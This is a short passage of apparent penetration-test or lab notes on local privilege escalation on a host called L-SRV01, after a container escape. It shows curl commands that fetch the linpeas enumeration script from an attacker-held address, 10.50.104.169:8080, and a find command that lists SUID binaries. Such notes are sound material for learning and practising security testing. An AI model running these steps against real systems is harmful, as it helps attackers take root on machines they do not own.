 
We have shell on L-SRV01 and escaped the container, we need to perform
local privilege escalation to gain root on the box.

Will download the linpeas script using the curl command.
```
curl -O http://10.50.104.169:8080/linpeas.sh
```


or save a file with specific name
```
curl -o enum.sh  http://10.50.104.169:8080/linpeas.sh
```

As we lost the connect will wait for 15 minutes and see what thing we have to see in the linpeas output.

I think we can't download the scrip so will run the command manually as well as do the enumeration manually.

Already know about the SUID concept as well as we also have the command in order to check specifically for that.
```
find / -perm -u=s -type f 2>/dev/null
```

